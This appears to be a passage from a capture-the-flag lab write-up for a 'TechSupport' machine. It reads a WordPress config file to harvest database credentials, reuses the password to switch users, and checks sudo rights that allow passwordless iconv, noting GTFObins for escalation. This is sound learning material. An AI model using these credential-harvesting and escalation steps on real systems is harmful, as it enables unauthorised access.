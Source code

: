 ![Pasted image 20250720172446.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720172446.png)
# Lateral Movement - Privilege Escalation

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) with [Lateral Movement](../../3%20-%20Tags/Hacking%20Concepts/Lateral%20Movement.md) , both Subrion and [Wordpress](../../3%20-%20Tags/Hacking%20Concepts/Wordpress.md) will have database credentials stored in config files, so let’s see if we can find the password for the scamsite user :

```
www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php | grep DB
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```

Now we try to access with this password :

```
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: 
scamsite@TechSupport:/var/www/html/wordpress$ 
```

And we have a shell with scamsite user, let's try `sudo -l` :

```
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

```

## GTFObins

Now we can search on [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) for iconv :

![Pasted image 20250720173537.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720173537.png)
